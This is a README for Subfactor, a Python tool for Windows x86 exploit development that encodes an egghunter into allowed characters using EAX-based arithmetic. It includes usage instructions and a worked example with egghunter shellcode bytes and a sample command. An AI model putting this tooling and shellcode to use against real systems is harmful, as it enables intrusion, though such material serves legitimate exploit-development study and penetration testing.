 # Subfactor

Subfactor is a tool used in Windows x86 32-bit exploit development to encode an Egghunter using a set of known good characters. It uses the EAX register to perform the relative ESP calculation, as well as the arithmatic for decoding the egghunter.

## Usage

```bash
python subfactor [-h|-a] <32 bit hex egghunter> <offset from ESP>
```
```
[-h|-a] : hex or assembly output
<32 bit egghunter> : The egghunter you want to encode (!mona egghunter -t w00t) with quotes included
<offset from ESP> : Address you WANT ESP to point to - Address ESP IS pointing to
```

## Example

```
My egghunter is : "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

<32 bit egghunter> : "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

ESP is pointing to : 0x1034E1EA

I want ESP to point to : 0x1035FFEC

0x1035FFEC - 0x1034E1EA = 0x11E02

<offset from ESP> : "\x01\x1E\x02"

```

Therefore:

```bash
python subfactor -h "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7" "\x01\x1E\x02"
```



